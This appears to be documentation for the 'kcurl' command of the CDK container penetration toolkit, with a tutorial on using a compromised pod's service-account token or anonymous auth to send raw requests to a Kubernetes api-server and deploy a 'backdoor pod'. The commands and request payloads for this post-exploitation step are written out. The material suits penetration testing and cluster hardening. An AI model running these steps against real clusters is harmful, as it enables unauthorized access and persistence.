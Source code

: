 
Connect K8s api-server with local service account token and make custom HTTP requests.
  
连接K8s api-server发起自定义HTTP请求。

## Usage
help msg and usage:
```
./cdk kcurl
```

send request
```
cdk kcurl (default|anonymous|<service-account-token-path>) (get|post) <url> ["<post-data>"]

default: auth k8s api-server with pod's default service-account token
anonymous: auth k8s api-server with cluster-role "system:anonymous"
<token-path>: auth k8s api-server with user-specified service-account token path
```

## Example
Use K8s pod default service account token(saved in `/var/run/secrets/kubernetes.io/serviceaccount/token`) to list nodes.

```
cdk kcurl default get "https://192.168.0.234:6443/api/v1/nodes"
```
![](https://static.cdxy.me/20201130102300_uQLpWZ_Screenshot.jpeg)

## Tutorial: create new pod using CDK `kcurl` command

Now you have hacked into a k8s pod and find k8s api-server endpoint, you want to run `kubectl apply -f <file>` to deploy a backdoor pod to 
 cluster, but there's no kubectl in current pod.   
  
You can use CDK `kcurl` command instead.
  
pod config ubuntu.yaml:
```
apiVersion: v1
kind: Pod
metadata:
  name: cdxy-test-2021
spec:
  containers:
  - image: ubuntu:latest 
    name: container
```
  
this is the pod you want to deploy, first you can run local kubectl to get JSON request params.  

```
kubectl create -f ubuntu.yaml --edit -o json
```

Another way to translate any kubectl commands to JSON data is using `--v` param.  
For example we dump request data in this case:  
  
```
kubectl apply -f ubuntu.yaml --v=8
```

then you can find HTTP request URI and POST data in kubectl log:

![](https://static.cdxy.me/cuimage/20210112165949_UdNq9J_Screenshot.jpeg)

wrap highlighted "URL" and "Data" string with single quote, then copy it to CDK `kcurl` command: 

```
/cdk kcurl anonymous post 'https://101.132.101.69:6443/api/v1/namespaces/default/pods?fieldManager=kubectl-client-side-apply' '{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"cdxy-test-2021\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"args\":[\"sleep\",\"infinity\"],\"image\":\"ubuntu:latest\",\"name\":\"container\"}]}}\n"},"name":"cdxy-test-2021","namespace":"default"},"spec":{"containers":[{"args":["sleep","infinity"],"image":"ubuntu:latest","name":"container"}]}}'
```

Now you can transfer `kubectl apply` requests to CDK `kcurl` command and manipulate K8s api-server in any pods.

![](https://static.cdxy.me/cuimage/20210112170934_HTckSj_Screenshot.jpeg)